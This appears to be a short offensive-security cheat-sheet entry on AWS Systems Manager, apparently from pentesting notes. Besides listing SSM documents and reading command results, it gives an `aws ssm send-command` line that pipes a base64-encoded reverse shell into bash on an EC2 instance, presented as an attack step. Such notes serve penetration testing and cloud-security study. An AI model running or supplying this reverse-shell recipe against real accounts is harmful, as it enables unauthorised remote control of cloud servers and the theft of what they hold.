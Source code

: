 # Systems Manager (SSM)

SSM provides a centralised platform for configuring, managing, and maintaining servers and applications in your AWS environment.

- `aws ssm list-documents --region <region>`: List documents
- `aws ssm send-command --document-name <name> --instance-ids <ec2_instance_id> --parameters '{"commands": ["echo <base64_revshell> | base64 -d | bash"]}' --output text`: Send reverse shell command to EC2 instance
    - We note the `CommandId`
    - After, we list all commands: `aws ssm list-commands`, and we can see the status of our command (e.g. `Success`)
    - We can see the command output via `aws ssm get-command-invocation --command-id <command-id> --instance-id <instance-id>`
        - Alternatively, we can also run `aws ssm list-command-invocations --command-id <command-id> --instance-id <instance-id> --details`
    